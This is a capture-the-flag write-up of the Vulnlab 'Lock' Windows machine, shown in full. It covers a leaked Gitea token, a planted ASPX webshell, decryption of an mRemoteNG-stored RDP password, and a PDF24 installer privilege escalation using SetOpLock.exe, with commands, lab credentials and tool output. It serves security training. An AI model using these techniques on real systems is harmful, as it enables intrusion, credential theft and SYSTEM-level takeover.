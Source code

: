 ```yaml
---
title: Lock Vulnlab (English)
image: /assets/img/Anexos/Máquina%20Lock.png
description: Down Vulnhab [Difuculty easy]
categories: [CTF,Vulnhab]
tags: [hacking,easy]
---
```




## Introduction
N/A
### Machine Description


- Name: Lock
- Goal: Get two flags
- Difficulty: easy
- Operating System: Windows
- link: [Lock](https://wiki.vulnlab.com/guidance/easy/lock)

  

### PDF Link
- PDF: [Link to PDF](https://github.com/juanbelin/Writeups-CTFs-Challenges/blob/main/Vulnlab/M%C3%A1quina%20Lock.pdf)




## Reconnaissance


```shell
 sudo nmap -sSCV --min-rate 5000 -p- --open -n -Pn 10.10.121.141 -oN scan1.txt
[sudo] password for belin: 
Starting Nmap 7.95 ( https://nmap.org ) at 2025-07-24 21:49 CEST
Nmap scan report for 10.10.121.141
Host is up (0.051s latency).
Not shown: 65531 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT     STATE SERVICE       VERSION
80/tcp   open  http          Microsoft IIS httpd 10.0
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-title: Lock - Index
|_http-server-header: Microsoft-IIS/10.0
445/tcp  open  microsoft-ds?
3389/tcp open  ms-wbt-server Microsoft Terminal Services
| ssl-cert: Subject: commonName=Lock
| Not valid before: 2025-07-23T19:45:35
|_Not valid after:  2026-01-22T19:45:35
| rdp-ntlm-info: 
|   Target_Name: LOCK
|   NetBIOS_Domain_Name: LOCK
|   NetBIOS_Computer_Name: LOCK
|   DNS_Domain_Name: Lock
|   DNS_Computer_Name: Lock
|   Product_Version: 10.0.20348
|_  System_Time: 2025-07-24T19:50:12+00:00
|_ssl-date: 2025-07-24T19:50:53+00:00; 0s from scanner time.
5985/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-time: 
|   date: 2025-07-24T19:50:15
|_  start_date: N/A
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 93.39 seconds
```
after the initial scan using `nmap`, we got that ports. 


> [!Info] 
> I should have done the scan again since it didn't report the port 3000 which is supposed to appear according to https://wiki.vulnlab.com/guidance/easy/lock xd. 

There's nothing interesting in the website, we can only notice that it seems to be a production software, that's why **gitea** may be important here. 


![](/assets/img/Anexos/Máquina%20Lock-10.png)

In gitea we can see one users who has a script in python which check the token and print the repos that the user has. So here we can check the commit history and it appears that someone forgot to delete their token:

![](/assets/img/Anexos/Máquina%20Lock-11.png)



What we can do now is use the actual script in order to get possible hidden repos with that token and we can see there's a hidden/private repo called website which is probably the website open on the port 80

```shell
❯ export GITEA_ACCESS_TOKEN=43ce39bb0bd6bc489284f2905f033ca467a6362f

❯ python test.py http://10.10.113.16:3000
Repositories:
- ellen.freeman/dev-scripts
- ellen.freeman/website
```

Knowing this we can now clone that repo:
```shell
 git clone http://ellen.freeman:43ce39bb0bd6bc489284f2905f033ca467a6362f@10.10.98.131:3000/ellen.freeman/website
```

## Explotation

Now I copy a apsx shell in the website repository
```shell
/usr/share/webshells/aspx/aspxshell.aspx
```

Then I commit and push the changes to the repo
```shell
git add .
git commit -m "pwn"
git push -u origin 
```

Finally, if we go to the page and we request for _/aspxshell.aspx_ we get the shell we previously upload. 
![](/assets/img/Anexos/Máquina%20Lock-12.png)
Now we can simply get a shell to our attack machine using https://www.revshells.com/ as the easiest way I use to use. 
## Privilege escaltion
Once in, in the Documents directory, we can see a config file for the mremoteng software installed which manage, among others, RDP connections, in this case, for the user _Gale.Dekarios_ in the target machine, so as it contains a protected variable, which is probably the key used to encrypt the pass, we search for a script in github or somewhere else in order to decrypt the password. 

```powershell
PS C:\users\ellen.freeman\Documents> type *
<?xml version="1.0" encoding="utf-8"?>
<mrng:Connections xmlns:mrng="http://mremoteng.org" Name="Connections" Export="false" EncryptionEngine="AES" BlockCipherMode="GCM" KdfIterations="1000" FullFileEncryption="false" Protected="sDkrKn0JrG4oAL4GW8BctmMNAJfcdu/ahPSQn3W5DPC3vPRiNwfo7OH11trVPbhwpy+1FnqfcPQZ3olLRy+DhDFp" ConfVersion="2.6">
    <Node Name="RDP/Gale" Type="Connection" Descr="" Icon="mRemoteNG" Panel="General" Id="a179606a-a854-48a6-9baa-491d8eb3bddc" Username="Gale.Dekarios" Domain="" Password="TYkZkvR2YmVlm2T2jBYTEhPU2VafgW1d9NSdDX+hUYwBePQ/2qKx+57IeOROXhJxA7CczQzr1nRm89JulQDWPw==" Hostname="Lock" Protocol="RDP" PuttySession="Default Settings" Port="3389" ConnectToConsole="false" UseCredSsp="true" RenderingEngine="IE" ICAEncryptionStrength="EncrBasic" RDPAuthenticationLevel="NoAuth" RDPMinutesToIdleTimeout="0" RDPAlertIdleTimeout="false" LoadBalanceInfo="" Colors="Colors16Bit" Resolution="FitToWindow" AutomaticResize="true" DisplayWallpaper="false" DisplayThemes="false" EnableFontSmoothing="false" EnableDesktopComposition="false" CacheBitmaps="false" RedirectDiskDrives="false" RedirectPorts="false" RedirectPrinters="false" RedirectSmartCards="false" RedirectSound="DoNotPlay" SoundQuality="Dynamic" RedirectKeys="false" Connected="false" PreExtApp="" PostExtApp="" MacAddress="" UserField="" ExtApp="" VNCCompression="CompNone" VNCEncoding="EncHextile" VNCAuthMode="AuthVNC" VNCProxyType="ProxyNone" VNCProxyIP="" VNCProxyPort="0" VNCProxyUsername="" VNCProxyPassword="" VNCColors="ColNormal" VNCSmartSizeMode="SmartSAspect" VNCViewOnly="false" RDGatewayUsageMethod="Never" RDGatewayHostname="" RDGatewayUseConnectionCredentials="Yes" RDGatewayUsername="" RDGatewayPassword="" RDGatewayDomain="" InheritCacheBitmaps="false" InheritColors="false" InheritDescription="false" InheritDisplayThemes="false" InheritDisplayWallpaper="false" InheritEnableFontSmoothing="false" InheritEnableDesktopComposition="false" InheritDomain="false" InheritIcon="false" InheritPanel="false" InheritPassword="false" InheritPort="false" InheritProtocol="false" InheritPuttySession="false" InheritRedirectDiskDrives="false" InheritRedirectKeys="false" InheritRedirectPorts="false" InheritRedirectPrinters="false" InheritRedirectSmartCards="false" InheritRedirectSound="false" InheritSoundQuality="false" InheritResolution="false" InheritAutomaticResize="false" InheritUseConsoleSession="false" InheritUseCredSsp="false" InheritRenderingEngine="false" InheritUsername="false" InheritICAEncryptionStrength="false" InheritRDPAuthenticationLevel="false" InheritRDPMinutesToIdleTimeout="false" InheritRDPAlertIdleTimeout="false" InheritLoadBalanceInfo="false" InheritPreExtApp="false" InheritPostExtApp="false" InheritMacAddress="false" InheritUserField="false" InheritExtApp="false" InheritVNCCompression="false" InheritVNCEncoding="false" InheritVNCAuthMode="false" InheritVNCProxyType="false" InheritVNCProxyIP="false" InheritVNCProxyPort="false" InheritVNCProxyUsername="false" InheritVNCProxyPassword="false" InheritVNCColors="false" InheritVNCSmartSizeMode="false" InheritVNCViewOnly="false" InheritRDGatewayUsageMethod="false" InheritRDGatewayHostname="false" InheritRDGatewayUseConnectionCredentials="false" InheritRDGatewayUsername="false" InheritRDGatewayPassword="false" InheritRDGatewayDomain="false" />
</mrng:Connections>
```

In this case I used this one https://github.com/gquere/mRemoteNG_password_decrypt 


```shell
❯ python3 mremoteng_decrypt.py ../content/config.xml
Name: RDP/Gale
Hostname: Lock
Username: Gale.Dekarios
Password: ty8wnW9qCKDosXo6
```

We got it! 

```shell
 xfreerdp /v:10.10.113.16 /u:gale.dekarios /p:ty8wnW9qCKDosXo6 /dynamic-resolution
```



Once in, we can realise that this machine uses thre PDF24 software, we can check the versión openning it in the settings field: 

![](/assets/img/Anexos/Máquina%20Lock-1.png)

I searched for the versión and it's vulnerable for privilage escalation, I use this poc => https://sec-consult.com/vulnerability-lab/advisory/local-privilege-escalation-via-msi-installer-in-pdf24-creator-geek-software-gmbh/

So basically I share `SetOpLock.exe` from https://github.com/googleprojectzero/symboliclink-testing-tools from my attack machine to the target machine

![](/assets/img/Anexos/Máquina%20Lock-2.png)

The vulnerability consist in executing the pdf24 msi installer which will open a invisible cmd as **SYSTEM** when it tries to write a log file. As we now the archive log it will write, we can use `SetOpLock.exe` in order to stop the invisible cmd executed by SYSTEM and get a shell as SYSTEM:

![](/assets/img/Anexos/Máquina%20Lock-3.png)

Once we get the invisible cmd locked thank to `SetOpLock.exe`, we go to propierties in order to get a help link and open the browser we want automatically as SYTEM 

![](/assets/img/Anexos/Máquina%20Lock-4.png)

![](/assets/img/Anexos/Máquina%20Lock-5.png)

Here `ctrl+o` to open the file explorer
![](/assets/img/Anexos/Máquina%20Lock-6.png)

We confirm that we have the privilages we wanted, 

![](/assets/img/Anexos/Máquina%20Lock-7.png)
then cmd here and we got the shell as SYSTEM!

![](/assets/img/Anexos/Máquina%20Lock-8.png)

![](/assets/img/Anexos/Máquina%20Lock-9.png)
